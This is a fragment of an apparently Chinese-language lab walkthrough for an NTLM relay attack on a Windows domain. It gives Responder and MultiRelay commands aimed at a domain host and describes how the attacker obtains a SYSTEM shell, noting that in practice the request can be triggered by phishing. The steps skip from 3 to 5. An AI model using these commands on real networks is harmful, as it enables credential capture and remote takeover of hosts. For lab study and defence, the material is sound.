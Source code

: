 ```plain
responder -I eth0 -w -r -f
```

[![](assets/1701222524-377e2e2761dcd7a4dfc6ce780ab83799.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143717-92be465a-8db8-1.png)  
Step 3：使用Responder的MultiRelay模块，指向域内的一台普通主机

```plain
python MultiRelay.py -t 192.168.188.3 -u ALL
```

[![](assets/1701222524-5fdfac8b379523517d6366f415cb142a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143742-a1a0285a-8db8-1.png)  
Step 5：在域控server 2012上建立文件共享请求，kali即可接收到192.168.188.3的sytem shell(实战中可以通过钓鱼发起请求)  